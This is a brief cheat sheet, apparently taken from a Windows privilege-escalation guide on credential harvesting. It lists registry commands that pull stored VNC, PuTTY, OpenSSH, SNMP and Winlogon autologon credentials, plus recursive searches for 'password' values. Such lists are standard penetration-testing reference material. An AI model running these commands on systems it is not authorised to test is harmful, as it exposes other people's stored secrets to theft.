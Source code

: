 https://steflan-security.com/windows-privilege-escalation-credential-harvesting/
```
reg query “HKLM\SYSTEM\Current\ControlSet\Services\SNMP”
```
```
reg query “HKCU\Software\ORL\WinVNC3\Password”
```
```
reg query “HKCU\Software\TightVNC\Server”
```
```
reg query “HKCU\Software\OpenSSH\Agent\Key”
```
```
reg query “HKCU\Software\SimonTatham\PuTTY\Sessions”
```
```
regedit /e "%USERPROFILE%\Desktop\putty-sessions.reg" HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions
```
```
reg query “HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon”
```
```
reg query HKLM /f password /t REG_SZ /s
```
```
reg query HKCU /f password /t REG_SZ /s
```
